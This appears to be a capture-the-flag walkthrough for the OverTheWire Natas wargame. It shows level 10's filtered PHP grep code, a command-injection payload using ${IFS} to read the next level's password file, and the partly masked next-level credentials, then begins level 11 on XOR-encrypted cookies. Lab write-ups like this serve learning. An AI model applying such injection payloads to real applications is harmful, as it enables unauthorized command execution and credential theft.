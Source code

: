This level is similar to the previous. 

Check the **PHP** code :
```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
?>
```

Now, some characters are blocked.

To bypass this, we could use ``${IFS}``, which is a bash variable : 
``a ${IFS} cat /etc/natas_webpass/natas11``

![Exploitation](../assets/img/OTW/level10.png)

<br>

Connect to the next level on `http://natas11.natas.labs.overthewire.org/` with :

- Username : ``natas11``
- Password : ``1KFqoJXi----------ESDW4fSysRoIg``

<br>

## Level 11

> Cookies are protected with XOR encryption

<br>

Press **F12** and you can see cookies. There is a ``data`` cookie : 
![Cookie Inspector](../assets/img/OTW/level12.png)
